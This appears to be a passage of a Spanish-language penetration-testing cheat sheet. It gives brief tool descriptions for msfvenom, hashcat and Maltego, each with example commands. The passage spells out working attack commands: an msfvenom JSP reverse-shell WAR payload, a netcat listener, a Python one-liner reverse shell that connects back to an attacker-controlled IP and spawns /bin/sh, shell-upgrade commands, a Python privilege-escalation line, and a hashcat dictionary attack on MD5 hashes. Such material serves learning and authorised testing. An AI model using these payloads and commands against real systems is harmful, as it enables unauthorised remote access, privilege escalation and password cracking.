 ***Ejemplo de Comando***: $ msfvenom -p java/jsp_shell_reverse_tcp lhost=< Tu dirección IP > lport=< Puerto > -f war -o shell.war 


***Hashcat***: Hashcat es una potente herramienta de cracking de contraseñas, a menudo considerada la más rápida y avanzada del mundo. Es de código abierto y puede ser utilizada tanto en CPU como en GPU.

Hashcat admite cinco modos de ataque únicos para llevar a cabo una variedad de tareas de cracking de contraseñas, incluyendo ataques de fuerza bruta, ataques de diccionario, y ataques de combinación, entre otros.

***Ejemplo de Comando***: hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

-m 0: Este parámetro le dice a Hashcat qué tipo de hash se está descifrando. En este caso, 0 representa MD5.

-a 0: Esto se refiere al modo de ataque. 0 representa un ataque de diccionario.

hashes.txt: Este es el archivo que contiene los hashes que estás intentando descifrar.

/usr/share/wordlists/rockyou.txt: Esta es la ubicación del diccionario de palabras que se utilizará para el ataque de diccionario.

***Reverse Shell para acceder a un cmd en remoto con Python***: Este comando sirve para intentar hacer un reverse shell y obtener acceso a su linea de comandos desde tu terminal con Python, utilizando el siguiente comando:

(Es importante destacar que antes de ejecutar este comando es necesario poner en tu consola a la escucha del puerto que has escogido a traves de la linea: **nc -lvp 1234** para que al ejecutar el comando desde el cmd ajeno, pueda captarlo nuestra terminal automaticamente gracias a los sockets que estan abriendo.)

**python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((YOUR_MACHINE_IP,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**

***Consola para Reverse Shell***: Estos son dos comandos que nos van a permitir tener una consola en condiciones cuando accedemos por reverse shell las cuales son mucho mas didácticas e interactivas.
Cuando ingresamos a la consola en reverse, si esta no tiene python, usaremos el siguiente comando:

**script /dev/null -c bash**

Si la consola Si tiene Python, usaremos el siguiente comando: 

**python3 -c 'import pty;pty.spawn("/bin/bash")**

***Escala de privilegios***:

Si la consola a la que estas atacando tiene signos de tener python instalado, puedes usar el siguiente comando para escalar los privilegios. 

**python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**


Maltego: Herramienta excelente de recopilación de datos pasiva para extraer información muy precisa basada en el nombre que tu le des de alguna persona, alias o alguna entidad empresarial. Posee "Transformadores" los cuales van a ser los encargados de extraer la información que necesites en función de lo que busques, cada transformador sirve para algo en concreto o para buscar en sitios o paginas web específicas. 
